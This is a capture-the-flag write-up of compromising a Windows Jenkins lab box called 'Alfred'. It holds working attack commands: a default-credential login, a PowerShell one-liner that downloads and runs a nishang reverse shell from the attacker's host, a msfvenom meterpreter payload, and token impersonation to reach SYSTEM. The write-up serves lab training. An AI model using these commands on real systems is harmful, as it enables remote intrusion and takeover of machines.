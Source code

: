 # Alfred

> Nashia Holloway | April 30th, 2020

## Task 1 Initial Access

**1. How many ports are open?**

There are `3` ports open: 80, 8080, and 3389

**2. What is the username and password to login?**

`admin:admin`

**3. Find a feature of the tool that allows you to execute commands on the underlying system. Get a reverse shell this way.**

The feature is located in http://$IP:8080/job/project/configure. Next we need to create an http server with python. Need to use [nishang](https://github.com/samratashok/nishang).

```
python3 -m http.server 8000 --bind $IP
(in new tab)
nc -lvnp 9000
```
**MAKE SURE YOU'RE IN THE DIRECTORY THE POWERSHELL SCRIPT IS WHEN RUNNING THE PYTHON SERVER (I spent an embarrisingly long time troubleshooting why I kept getting a 404 status)**

Code for web app:
```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

It took a while to figure out why the python server wasn't serving the powershell file. After binding to my specific port and IP instead of the default, it worked.

## Task 2 Switching Shells

Switch to a metepreter shell to make prive esc easier.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=$IP LPORT=1337 -f exe -o shell.exe
```

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://tunnel_IP:8000/shell_name.exe','shell_name.exe')"
```

Once the shell has been downloaded to the box, run the previous powershell script to gain access again and run the process. Before starting the process, make sure meterpreter is listening for the callback.

```
Start-Process "shell_name.exe"
```

Running the payload will open a meterpreter shell.

## Task3 Privilege Escalation

We use [token impersonation](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens) to gain access. First, migrate into a SYSTEM process. Then list the privileges the user has with `whoami /priv`. 

![](whoami_priv.png)

We can see we have [SeImpersonatePrivilege](https://www.exploit-db.com/papers/42556). Load incognito and list tokens to see who we want to impersonate.

```
load incognito
list_tokens -g
``` 

We use the `BUILTIN\Administrators` token.

```
impersonate_token "BUILTIN\Administrators"
```

Read the flag located at `C:\Windows\System32\config".

